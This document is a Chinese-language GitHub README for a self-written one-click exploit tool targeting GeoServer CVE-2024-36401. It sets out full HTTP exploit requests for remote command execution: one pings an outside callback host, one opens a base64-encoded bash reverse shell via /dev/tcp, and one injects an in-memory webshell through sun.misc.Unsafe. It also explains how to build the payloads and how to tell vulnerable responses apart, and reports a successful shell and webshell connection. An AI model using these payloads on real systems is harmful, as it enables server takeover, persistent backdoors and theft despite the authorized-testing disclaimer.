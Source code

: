 # geoserver CVE-2024-36401 一键漏洞利用工具

geoserver CVE-2024-36401  环境：JDK8 声明：仅用于授权测试，用户滥用造成的一切后果和作者无关 请遵守法律法规！

原本没打算写的，主要是想着直接去搜一下工具，直接用着方便就OK了

找到一个geoserver CVE-2024-36401漏洞利用工具

GeoServer 综合漏洞扫描工具V1.2 发布！

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/dsfdsf.png)

但是实际使用下来感觉到这个工具稍微有点miti，作者说是go语言写的

那么就想着能不能自己写一个试试

但是发现这个漏洞实际写下来，也没那么简单

那个作者说新版发布了,最新的版本是GeoServer 综合漏洞扫描工具V1.2，实际上发现他的新版也还是那样miti，原因在于，同样的站，他那个工具检测不到漏洞

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/fgdsgds.png)

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/dfsfsdf.png)

换成自己写的就可以检测到漏洞

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/fdgdfg.png)


简单说一下编写思路吧

1，默认payload:

POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
</wfs:GetPropertyValue>

那么注意这里： <wfs:Query typeNames='sf:archsites'/>

这个地方，如果你需要采取正则的方式去拿到，这个是sf:archsites网站的一个基本标识，你需要先拿到他的

<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>信息，然后你可以采取拼接的方式

判断漏洞的时候
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
  
  这个地方，其实都不用去查找dns记录
  
  简单的逻辑就是判断是否存在异常的类
  
  如java.lang.ClassCastException
  
当然，这只是判断逻辑

这个回显本来就是400，这个地方容易踩坑，你需要判断错误页面后，进行数据查找

首先你需要请求一个
<wfs:ListStoredQueries service='WFS'\n" +
 " version='2.0.0'\n" +
 " xmlns:wfs='http://www.opengis.net/wfs/2.0'/>
 
 这个信息代表了你可以拿到他的<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>
 
 然后直接赋值给文本，然后再调一个函数方法，把文本的截取的信息，拼接到参数的<wfs:Query typeNames='sf:archsites'/>这里
 
 这条就会对判断的逻辑相对精准，检测类就这么写就可以了
 
 如果你只是一直使用 <wfs:Query typeNames='sf:archsites'/>，那么误判的几率很高，会提示找不到这个sf:archsites

 反弹类
 
我们看看反弹的payload:

POST /geoserver/wfs HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: JSESSIONID=5D030E92A0AFCC3B5006597E6524FD8D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/xml
Content-Length: 438

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}')</wfs:valueReference>
</wfs:GetPropertyValue>

我们注意这里：

<wfs:Query typeNames='sf:archsites'/>

同样，先要正则取值然后拼接给他

然后直接请求

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx这里是加密过的base64

编写的时候，就把用户输入的bash -i >& /dev/tcp/127.0.0.1/9999 0>&1，转换成base64就可以了

然后发请求，同样，去找关键的异常类，判断逻辑即可

内存马注入类
这个地方
POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 20383

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>

这个地方还是有  <wfs:Query typeNames='sf:archsites'/>，老规矩，先取值

在star这里，放入你生成的base64的内存马加密代码

然后判断逻辑即可

容易踩坑的点
1、  <wfs:Query typeNames='sf:archsites'/>重复利用，误判几率98%，报错如下：

https://geoserver.epic.blue/geoserver/schemas/ows/1.1.0/owsAll.xsd">
<ows:Exception exceptionCode="InvalidParameterValue" locator="typeName">
<ows:ExceptionText>Could not locate {http://www.openplans.org/spearfish}archsites in catalog.<

存在漏洞的点：
<ows:Exception exceptionCode="NoApplicableCode">
<ows:ExceptionText>java.lang.ClassCastException: class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)
class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)</ows:ExceptionText>
</ows:Exception>

简单来讲存在漏洞就是java.lang.ClassCastException

误判就是Could not locate {http://www.openplans.org/spearfish}archsites in catalog

2、判断方式：
抓取调用的wfs:ReturnFeatureType>，赋给文本-文本调用函数方法，请求，拼接在请求，判断回显的异常

文本调用函数这里，需要提前给值，这样防止出现空指针异常，请求前拼接，判断回显的异常，是异常内进行判断

最终我们实现了这个漏洞利用工具的编写

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/dfdsfdf.png)

我们来测试一下漏洞

工具执行效果

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/fgfggf.png)

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/dfgdg.png)

提示：无回显和漏洞输出不存在是一样的，存在漏洞的会提示+号

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/dsfsdfsd.png)

我们检测到了漏洞，拿到了端点，反弹shell也成功了

接下来我们来试试注入内存马

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/gfdgfdg.png)

显示是成功注入内存马，我们来连接看看是否成功

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/fdgdgds.png)

是可以连接的

提示：测试内存马，This GeoServer instance is running version 2.15.2. For more information please contact the 
该版本内存马打入成功

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/fdsfdsf.png)






















 
            

  

